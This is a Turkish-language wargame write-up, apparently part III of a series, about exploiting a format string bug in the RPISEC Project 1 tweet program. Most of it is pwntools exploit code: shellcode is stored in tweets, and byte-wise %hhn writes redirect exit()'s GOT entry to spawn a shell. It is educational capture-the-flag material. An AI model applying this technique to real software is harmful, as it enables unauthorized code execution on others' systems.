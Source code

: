 ```yaml
---
layout: post
title: "Savaş Oyunları: Format İpliklerinin Dönüşü Part III"
category: pwn
date: 18.12.13
---
```


![imback](/assets/2018-12-13-rpisec_project1_pt3/imback.gif)

*Başladığım işi bitirmek üzere geri döndüm. Geç olsun güç olmasın. (Bahaneler bahaneler...)*

# Adminden kod çalıştırmaya

Admin olmayı başardım ancak bu tek başına birşey ifade etmiyor. Çünkü program admin olan bir kullanıcıya tweetlerin adreslerini göstermekten başka bir fonksiyon sunmuyor. Programda zafiyetler var mı incelemem gerekecek.

İlk aradığım zafiyet türü buffer overflow. Ancak programı yazan kişi gayet iyi yazmış, tüm inputlar bufferların uzunluğuna göre alınıyor. İkinci olarak printf tarzı fonksiyonlarda yanlış kullanım var mı diye ararken sym.print_menu altında dikkatimi şu kısım çekiyor:

![1](/assets/2018-12-13-rpisec_project1_pt3/1.png)

Bu kısım menüdeyken küçük penguenin yanına son girdiğimiz tweeti yazdırıyor. Ancak normal kullanıcı için sağdaki, admin olan kullanıcılar için ise soldaki blok çalışıyor. Küçük bir problem var, soldaki blokta tweetim printf fonksiyonuna ilk argüman olarak veriliyor. Bu da demektir ki:

FORMAT STRING ZAFİYETİ BULDUM!!

Küçük sevinç çığlıklarından sonra bu zafiyeti nasıl kullanacağımı planlamam lazım. İlk deneyeceğim şey GOT tablosundan bir fonksiyonun adresini değiştirip kendi yazdığım shellcode'a yönlendirmek. Bunun için shellcode'umu tweetlerin içinde tutabilirim. Tek sorun, tweetler 16 byte boyutunda. Bütün bunları hesaba katıp kendime bir yol çizdim:

- Shellcode'u tweet olarak programa ver.
   - 16 byte bir shellcode için küçük olacak. "/bin/sh" kısmını önden bir tweete yükleyip kodun kalanını sonraki tweette saklayabilirim.
- Son tweet ile format string zafiyetini kullanıp sym.exit()'in GOT girdisini shellcode'a yönlendir.
- Programdan çıkış yaparak exit() fonksiyonunun çağrılmasını sağla.


## 1. Shellcode'un programa yüklenmesi
Python scriptime debug modunu açıp "/bin/sh" tweetini atan kısmı ekliyorum:

{% highlight python %}
log.info(io.recv())
io.sendline("6")
log.info(io.recvuntil("Enter Choice: "))
io.sendline("1")
# program son karaktere mudahele ediyor
io.sendline("/bin/sh\x00/")
{% endhighlight %}

Hemen ardından tweetin bellekteki adresini okumam gerekecek.

{% highlight python %}
io.recv()
io.sendline("2")
tweet_list = io.recv()
binsh = int(tweet_list.split("\n")[-7].split(" ")[-1], 16)
log.info("binsh address: {}".format(hex(binsh)))
{% endhighlight %}

Şimdi shellcode'umu oluşturup programa verebilirim.

### Zeytinli shellcode tarifi:

{% highlight python %}
shellcode  = "xor ecx, ecx\n"
shellcode += "imul ecx\n"
shellcode += "mov al, 0x0b\n"
shellcode += "mov ebx, 0x{}\n".format(binsh)
shellcode += "int 0x80\n"
shellcode = asm(shellcode)
{% endhighlight %}

13 byte'lık shellcode'um hazır. Şimdi bunu programa yüklüyorum.

{% highlight python %}
io.recv()
io.sendline("1")
io.sendline(shellcode)
io.sendline("")
{% endhighlight %}

Shellcode'umun adresini de okuyorum.

{% highlight python %}
io.recv()
io.sendline("2")
tweet_list = io.recv()

shellcode_address = int(tweet_list.split("\n")[-8].split(" ")[-1], 16)
log.info("Shellcode @{}".format(hex(shellcode_address)))

io.send("\n")
{% endhighlight %}

## 2. Format string zafiyetini kullanarak GOT girdisini değiştirmek

Sırada exit fonksiyonunun GOT girdisini değiştirmek için format string zayifetini kullanmam gerekiyor. Pwntools bunun için hazır fonksiyonlara sahip ama şimdilik kendi kodlarımla idare edeceğim. Ancak yine 16 byte sınırı ile karşı karşıyayım. Birden fazla tweet kullanarak adresi parça parça değiştirmek zorunda kalacağım.

{% highlight python %}
exitgot = binary.got["exit"]
# byte byte yaziyorum
for i in range(4):
    io.recv()
    io.sendline("1")

    # padding gerekli
    line  = "A"
    line += p32(exitgot+i)
    byte2write = (shellcode_address & (0xff << i*8)) >> i*8
    log.info("Writing {} to address {}".format(hex(byte2write),
                                               hex(exitgot+i)))
    byte2write |= 0x100
    byte2write -= len(line)
    line += "%" + str(byte2write) + "x"
    line += "%8$hhn"

    io.sendline(line)
    io.sendline("")

io.interactive()
{% endhighlight %}

## 3. Programdan çıkış(!)

Scriptim buraya kadar çalıştıktan sonra programdan çıkış yapmak istediğimde exit() fonksiyonunu çağırmaya çalışacak ve shellcode'uma düşecek.

![voila](/assets/2018-12-13-rpisec_project1_pt3/2.png)

Ve shellcode çalıştı. Projeyi sonunda tamamladım. Scriptin en son halini [githubda](https://gist.github.com/erfur/40809ac0184070341ee27279ab2402dc) bulabilirsiniz. İlk konular ile alakalı bir proje olduğu için güncel korumaların hepsi kapalıydı (ASLR dahil). İleride daha güncel yöntemlerin kullanıldığı projelerde görüşmek üzere.

Connection closed by foreign host.